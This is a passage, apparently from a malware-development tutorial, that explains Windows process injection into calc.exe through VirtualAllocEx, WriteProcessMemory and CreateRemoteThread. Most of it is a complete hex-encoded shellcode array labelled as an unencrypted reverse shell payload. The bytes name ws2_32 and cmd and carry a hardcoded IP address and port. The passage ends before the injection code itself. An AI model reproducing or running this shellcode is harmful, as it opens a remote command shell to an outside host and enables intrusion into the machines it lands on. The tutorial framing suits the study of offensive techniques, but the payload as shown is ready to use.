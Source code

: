 and then "ask" the system to start executing your payload in a target process, which is `calc.exe`.

![injection process 4](./images/6/injection-4.png){width="75%"}

So, let's go to code this simple logic.
Now the most popular combination to do this is using built-in Windows API functions which are implemented for debugging purposes. There are:    
- [VirtualAllocEx](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex)   
- [WriteProcessMemory](https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory)   
- [CreateRemoteThread](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread)   

Very basic example is:
```cpp
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <windows.h>

// reverse shell payload (without encryption)
unsigned char my_payload[] =
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50\x52"
"\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48"
"\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9"
"\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41"
"\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48"
"\x01\xd0\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01"
"\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48"
"\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0"
"\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c"
"\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0"
"\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04"
"\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59"
"\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48"
"\x8b\x12\xe9\x57\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33"
"\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00"
"\x49\x89\xe5\x49\xbc\x02\x00\x11\x5c\x0a\x09\x01\x06\x41\x54"
"\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c"
"\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff"
"\xd5\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2"
"\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48"
"\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99"
"\xa5\x74\x61\xff\xd5\x48\x81\xc4\x40\x02\x00\x00\x49\xb8\x63"
"\x6d\x64\x00\x00\x00\x00\x00\x41\x50\x41\x50\x48\x89\xe2\x57"
"\x57\x57\x4d\x31\xc0\x6a\x0d\x59\x41\x50\xe2\xfc\x66\xc7\x44"
"\x24\x54\x01\x01\x48\x8d\x44\x24\x18\xc6\x00\x68\x48\x89\xe6"
"\x56\x50\x41\x50\x41\x50\x41\x50\x49\xff\xc0\x41\x50\x49\xff"
"\xc8\x4d\x89\xc1\x4c\x89\xc1\x41\xba\x79\xcc\x3f\x86\xff\xd5"
"\x48\x31\xd2\x48\xff\xca\x8b\x0e\x41\xba\x08\x87\x1d\x60\xff"
"\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5\x48"
"\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13"
"\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";

unsigned int my_payload_len = sizeof(my_payload);

```